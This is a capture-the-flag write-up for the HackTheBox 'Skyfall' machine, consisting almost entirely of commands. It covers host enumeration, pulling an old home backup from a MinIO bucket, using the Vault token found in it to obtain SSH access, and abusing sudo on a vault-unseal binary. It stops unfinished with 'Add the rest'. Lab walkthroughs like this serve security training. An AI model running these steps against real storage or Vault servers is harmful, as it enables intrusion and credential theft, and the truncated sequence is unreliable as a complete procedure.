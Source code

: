 # Skyfall HacktheBox Writeup - Seasonal Machine (Insane)

https://cyberw1ng.medium.com

Adding Host: 

`IP skyfall.htb demo.skyfall.htb prd23-s3-backend.skyfall.htb prd23-vault-internal.skyfall.htb" | sudo tee -a /etc/hosts`

Nmap:

`nmap -sC -sV IP`

Dir Enum:

`gobuster dir -u http://skyfall.htb/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt`

DNS Enum: 

`gobuster dns -d skyfall.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 20`


Installing Minio Client

```
curl https://dl.min.io/client/mc/release/linux-amd64/mc \
  --create-dirs \
  -o $HOME/minio-binaries/mc

chmod +x $HOME/minio-binaries/mc
export PATH=$PATH:$HOME/minio-binaries/
```

```
mc alias set myminio http://prd23-s3-backend.skyfall.htb ACCESS_KEY SECRET_KEY
mc ls - recursive - versions myminio
mc cp - vid 2b75346d-2a47–4203-ab09–3c9f878466b8 myminio/askyy/home_backup.tar.gz ./home_backup.tar.gz
tar -xzvf home_backup.tar.gz
cat .bashrc
wget https://releases.hashicorp.com/vault/1.15.5/vault_1.15.5_linux_amd64.zip
unzip vault_1.15.5_linux_amd64.zip
export VAULT_ADDR="http://prd23-vault-internal.skyfall.htb"
./vault login
./vault token capabilities ssh/roles
./vault list ssh/roles
./vault ssh -role dev_otp_key_role -mode OTP -strict-host-key-checking=no askyy@HTB_IP
sudo -l
rm -rf debug.log 
touch debug.log
sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -vd
exit
export VAULT_ADDR="http://prd23-vault-internal.skyfall.htb"
./vault login
./vault ssh -role dev_otp_key_role -.......Add the rest

```
